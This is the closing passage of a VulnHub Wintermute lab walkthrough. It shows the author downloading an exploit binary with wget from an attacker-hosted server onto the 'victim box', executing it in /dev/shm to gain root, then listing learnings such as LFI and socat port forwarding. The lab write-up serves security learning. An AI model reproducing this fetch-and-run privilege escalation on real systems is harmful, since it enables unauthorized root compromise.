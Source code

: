 ```
    BaseHTTPServer.test(HandlerClass, ServerClass)
  File "/usr/lib/python2.7/BaseHTTPServer.py", line 610, in test
    httpd.serve_forever()
  File "/usr/lib/python2.7/SocketServer.py", line 231, in serve_forever
    poll_interval)
  File "/usr/lib/python2.7/SocketServer.py", line 150, in _eintr_retry
    return func(*args)
KeyboardInterrupt
```
On the victim box:
```
$ uname -a
Linux neuromancer 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
$ gcc
/bin/sh: 90: gcc: not found
$ wget 192.168.219.8:4321/44298 -O /dev/shm
/dev/shm: Is a directory
$ wget 192.168.219.8:4321/44298 -O /dev/shm/44298
--2020-04-30 07:47:02--  http://192.168.219.8:4321/44298
Connecting to 192.168.219.8:4321... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17888 (17K) [application/octet-stream]
Saving to: ‘/dev/shm/44298’

     0K .......... .......                                    100% 52.4K=0.3s

2020-04-30 07:47:02 (52.4 KB/s) - ‘/dev/shm/44298’ saved [17888/17888]

$ cd /dev/shm
$ bash 44298
44298: 44298: cannot execute binary file
$ chmod +x 44298
$ ls -alh
total 20K
drwxrwxrwt  2 root root   60 Apr 30 07:47 .
drwxr-xr-x 20 root root 3.9K Apr 30 03:45 ..
-r-x--x---  1 ta   ta    18K Apr 30  2020 44298
$ ./44298
id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(ta)

```
Done, we're finally in as root. Box complete

### Learnings
1. LFI with a paramaeter appended at the end
2. Port forwarding with socat
3. Scanning for other machines using ping
4. Scanning for ports using nc


[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator